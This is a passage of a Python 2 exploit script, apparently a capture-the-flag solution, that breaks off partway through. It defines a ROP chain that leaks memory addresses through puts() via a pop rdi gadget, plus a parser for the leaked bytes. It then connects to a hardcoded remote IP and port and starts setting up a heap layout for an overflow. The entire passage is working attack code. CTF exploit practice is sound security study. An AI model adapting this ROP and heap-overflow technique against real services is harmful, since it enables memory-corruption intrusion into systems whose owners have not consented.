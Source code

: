     	recv_until('Input the message index:')
    	s.send( str(idx) + '\n' )

    	recv_until('Choice:')

    # --------------------------------------------------------------------------------------------------
    def rop_leak(addr):								# leak an address
    	rop  = pack('<Q', 0x4444444444444444)		# set rbp
    	rop += pack('<Q', 0x0000000000400D83)		# pop rdi; ret; gadget
    	rop += pack('<Q', addr) 					# address to leak
    	rop += pack('<Q', 0x0000000000400957)		# return to puts()

    	return rop

    # --------------------------------------------------------------------------------------------------
    def get_leak():									# parse a leaked address
    	value = ''

    	for i in range(8):							# address is usually 64 bits (unless a NULL appears)
    		digit = f.read(1)						# read a digit

    		if digit == '\n': 						# if newline,
    			value += '\x00' * (8-i)				#   pad with zeros
    			break								#   and stop

    		value += digit 							# append digit

    	return unpack("<Q", value)[0]				# return value

    # --------------------------------------------------------------------------------------------------
    if __name__ == "__main__":

    	s = socket.create_connection(('121.40.56.102', 9733))
    	#s = socket.create_connection(('localhost', 7777))  	# connect to server
    	f = s.makefile()                			# return a file object associated with the socket


    	recv_until('Choice:')						# eat startup menu

    	# -------------------------------------------------------------------------
    	# Prepare heap layout for overflow. Don't allocate on fastbins
    	# -------------------------------------------------------------------------
    	print ' *** Preparing heap layout for overflow...'
